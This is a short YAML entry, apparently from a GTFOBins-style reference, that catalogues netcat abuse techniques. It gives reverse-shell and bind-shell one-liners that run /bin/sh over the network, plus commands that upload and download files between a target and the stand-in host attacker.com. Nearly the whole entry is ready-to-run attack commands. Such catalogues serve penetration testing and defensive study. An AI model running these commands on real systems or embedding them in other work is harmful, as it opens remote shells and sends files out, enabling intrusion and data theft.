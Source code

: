 ```yaml
---
functions:
  reverse-shell-interactive:
  - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
    code: |
      RHOST=attacker.com
      RPORT=12345
      nc -e /bin/sh $RHOST $RPORT
  bind-shell-interactive:
  - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
    code: |
      LPORT=12345
      nc -l -p $LPORT -e /bin/sh
  upload:
  - description: Send a file to a TCP port. Run `nc -l -p 12345 > "file_to_save"`
      on the attacker box to collect the file.
    code: |
      RHOST=attacker.com
      RPORT=12345
      LFILE=file_to_send
      nc $RHOST $RPORT < "$LFILE"
  download:
  - description: Fetch remote file from a remote TCP port. Run `nc target.com 12345
      < "file_to_send"` on the attacker box to send the file.
    code: |
      LPORT=12345
      LFILE=file_to_save
      nc -l -p $LPORT > "$LFILE"
---
```

